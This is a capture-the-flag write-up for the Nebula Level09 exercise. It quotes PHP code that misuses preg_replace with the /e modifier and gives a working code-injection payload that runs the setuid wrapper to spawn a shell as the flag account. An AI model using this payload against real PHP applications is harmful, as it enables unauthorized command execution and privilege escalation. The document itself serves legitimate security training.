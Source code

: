 # Level09

## Task

>There’s a C setuid wrapper for some vulnerable PHP code…

>To do this level, log in as the level09 account with the password level09. Files for this level can be found in /home/flag09.

```php
<?php

function spam($email)
{
  $email = preg_replace("/\./", " dot ", $email);
  $email = preg_replace("/@/", " AT ", $email);
  
  return $email;
}

function markup($filename, $use_me)
{
  $contents = file_get_contents($filename);

  $contents = preg_replace("/(\[email (.*)\])/e", "spam(\"\\2\")", $contents);
  $contents = preg_replace("/\[/", "<", $contents);
  $contents = preg_replace("/\]/", ">", $contents);

  return $contents;
}

$output = markup($argv[1], $argv[2]);

print $output;

?>
```

## Solution

When `pre_replace` is used with the `/e` flag, the replacement string is substituted, evaluated, and replaced in the original.  By looking at the PHP source code, we see the following: `$contents = preg_replace("/(\[email (.*)\])/e", "spam(\"\\2\")", $contents);` the regex will mean that it is the pattern `([email EMAIL])` where `EMAIL` will be evaluated by the function.

with that in mind crafting the following payload allows us to get the flag

```
level09@nebula:/home/flag09$ echo '[email {${@system($use_me)}}]' > /tmp/09
```

here the email arg will be an argument that will send the next argument to the system.

```
level09@nebula:/home/flag09$ ./flag09 /tmp/09 sh
sh-4.2$ getflag
You have successfully executed getflag on a target account
```
